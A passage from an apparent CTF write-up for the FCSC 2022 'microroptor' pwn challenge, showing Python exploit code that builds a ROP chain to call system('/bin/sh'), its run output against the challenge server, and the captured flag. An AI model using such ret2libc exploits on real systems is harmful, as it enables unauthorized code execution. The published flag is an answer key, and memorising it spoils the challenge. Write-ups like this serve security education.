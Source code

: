 ```python


libc_base = libc_leak - printf_offset #printf function in the binary - printf offset in the libc
BIN_SH = libc_base + bin_sh_offset
SYSTEM = libc_base + system_offset

#2nd ropchain, pass /bin/sh as system() argument to get a shell
rop2 = [
    POP_RDI, BIN_SH,
    RET,
    SYSTEM
]
rop2 = b'A'*OFFSET+ b''.join([p64(r) for r in rop2]) #Build 2nd ropchain to get a shell

io.sendline(rop2) #Send 2nd ropchain
io.recvline()
io.recvline()
io.sendline(b"cat flag") #Get the flag
print(io.recvline()) #Print the flag
```

![meme](./ressources/dinausores.jpeg)

```                             
┌──(kali㉿kali)-[~/…/CTF/FCSC2022/pwn/1]
./exploit.py REMOTE
[*] '/home/kali/Secu/CTF/FCSC2022/pwn/1/microroptor'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2052: Done
[+] ptr leak: 0x5b8fa8ccf010
[+] base found: 0x5b8fa8ccb000
[+] puts_plt found: 0x5b8fa8ccc040
[+] main found: 0x5b8fa8ccc178
[*] Leaking printf.got libc adress
[↑] printf_libc: 0x7679797adcf0
b'FCSC{e3752da07f2c9e3a0f9ad69679792e5a8d53ba717a2652e29fb975fcf36f9258}\n'
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2052
```

flag: **FCSC{e3752da07f2c9e3a0f9ad69679792e5a8d53ba717a2652e29fb975fcf36f9258}**
